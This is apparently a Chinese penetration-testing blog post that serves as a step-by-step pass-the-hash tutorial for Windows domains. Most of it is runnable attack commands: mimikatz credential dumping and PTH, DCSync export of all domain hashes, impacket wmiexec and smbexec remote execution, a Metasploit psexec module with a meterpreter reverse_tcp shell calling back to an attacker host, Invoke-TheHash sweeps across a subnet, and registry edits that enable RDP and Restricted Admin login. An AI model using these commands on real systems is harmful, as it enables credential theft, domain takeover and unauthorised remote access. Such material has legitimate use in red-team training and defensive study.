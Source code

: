 ```yaml
---
layout:     post
title:      内网渗透之Hash传递攻击
subtitle:   内网渗透之Hash传递攻击
date:       2021-01-29
author:     木已成舟
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 内网渗透
---
```


## 0x00 PTH原理

PTH即pass-the-hash，原理是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不需要提供明文密码。在Windows系统中，通常会使用NTLM身份认证，NTLM是口令加密后的hash值。PTH是基于smb服务（445端口）。

利用场景：内网环境中存在大量密码一样的主机，当我们获得了一台的hash后，可以通过该hash进行横向渗透。



## 0x01 工具

### 通过mimikatz进行PTH

要抓取hash，需要先提权到本地管理权限，不然会报以下错误。

![20210129103322](../../../../img/20210129103322.png)

mimikatz（使用管理员权限打开）抓取明文密码和hash命令：

```
#交互式
privilege::debug
sekurlsa::logonpasswords
#非交互式
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
```

下图是抓取到的域管理员的明文密码和hash。

![20210129103511](../../../../img/20210129103511.png)

使用mimikatz进行PTH攻击命令：

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:SHQAX /ntlm:161cff084477fe596a5db81874498a24"
```

下图是命令执行成功的效果图。

![20210129103821](../../../../img/20210129103821.png)

同时它会打开一个新的CMD窗口，该窗口有访问域控的权限。

![20210129103944](../../../../img/20210129103944.png)



#### 导出域内hash

当你通过Mimikatz进行PTH后，在Mimikatz创建的新窗口中执行以下命令可以导出域内所有hash。

```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:shqax.com /all /csv"
```



#### 使用psexec执行命令

当你通过Mimikatz进行PTH后，在Mimikatz创建的新窗口中执行以下命令可以执行远程命令。

`PsExec.exe \\10.10.1.128 -s cmd.exe`

![20210129104332](../../../../img/20210129104332.png)



### 使用impacket进行PTH

impacket工具集下载：https://github.com/maaaaz/impacket-examples-windows

使用impacket工具集中的wmiexec执行系统命令：

```
wmiexec.exe -hashes :161cff084477fe596a5db81874498a24 shqax/administrator@10.10.1.128 "ipconfig"
```

![20210129104557](../../../../img/20210129104557.png)

使用impacket工具集中smbexec进行反弹shell：

```
smbexec.exe -hashes :161cff084477fe596a5db81874498a24 shqax/administrator@10.10.1.128
```

![20210129104637](../../../../img/20210129104637.png)



### 使用CS进行PTH

使用CS里的mimikatz先dump下密码和hash。

![20210129104758](../../../../img/20210129104758.png)

在凭证中可以看到。

![20210129104826](../../../../img/20210129104826.png)

对内网进行探测后，选择一台主机，进行PTH，此时需要选择一个smb协议的Listener。

![20210129104905](../../../../img/20210129104905.png)

回连成功。

![20210129104939](../../../../img/20210129104939.png)

### 使用MSF进行PTH

选择Msf的`auxiliary/admin/smb/psexec_command`模块：

```
use auxiliary/admin/smb/psexec_command
set rhosts 10.10.1.128
set smbdomain shqax
set smbuser administrator
set smbpass <LM:NTLM>
set command ipconfig
run
```

一开始set sbmpass只设置了NTLM hash，导致下图的登陆失败。

![20210129105337](../../../../img/20210129105337.png)

![20210129105440](../../../../img/20210129105440.png)



msf反弹shell模块：

```
use exploit/windows/smb/psexec_psh
set rhost 10.10.1.128
set smbdomain shqax
set smbuser administrator
set smbpass <LM:NTLM>
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.1.131
set lport 4444
exploit -j -z
```



![20210129105547](../../../../img/20210129105547.png)



### 通过powershell进行批量TH

powershell脚本：https://github.com/Kevin-Robertson/Invoke-TheHash

```
#本地加载powershell脚本：
powershell -exec bypass
Import-Module .\Invoke-WMIExec.ps1
Import-Module .\Invoke-TheHash.ps1

#利用已有管理员hash，批量指定网段机器(域环境下)
Invoke-TheHash -Type WMIExec -Target 10.10.1.0/24 -Domain shqax -Username administrator -Hash 161cff084477fe596a5db81874498a24

#利用已有管理员hash，批量指定网段机器(工作组环境下)
Invoke-TheHash -Type WMIExec -Target 10.10.1.0/24 -Username administrator -Hash 161cff084477fe596a5db81874498a24
```

![20210129105647](../../../../img/20210129105647.png)





## 0x02 Remote Desktop

Restricted Admin mode，直译为受限管理模式，它使用当前Windows登录凭据，不需要输入口令，直接登录。当然需要两端都支持Restricted Admin mode，即Server需要开启Restricted Admin mode，Client也需要支持Restricted Admin mode。

Restricted Admin mode适用于：

- Windows 8.1和Windows Server 2012 R2默认支持该功能
- Windows 7和Windows Server 2008 R2默认不支持，需要安装补丁2871997、2973351



查看远程桌面是否打开（0表示开启，1表示关闭）：

```
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

注册表开启3389端口：

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

查看3389端口号：

```
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber


```



开启Restricted Admin mode的方法

1. 方法1: 安装补丁3126593
2. 修改注册表（测试没成功）

```
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

测试的时候，发现只能用交互模式。

```
privilege::debug
sekurlsa::pth /user:administrator /domain:SHQAX /ntlm:161cff084477fe596a5db81874498a24 "/run:mstsc.exe /restrictedadmin"
```

查看是否支持Restricted Admin mode的命令。

`mstsc.exe /restrictedadmin`

下图是本地不支持Restricted Admin mode的提示：

![20210129110432](../../../../img/20210129110432.png)



下图是远程桌面不支持Restricted Admin mode的提示：

![20210129110459](../../../../img/20210129110459.png)



## 0x03 参考链接

https://blog.csdn.net/lhh134/article/details/104475026

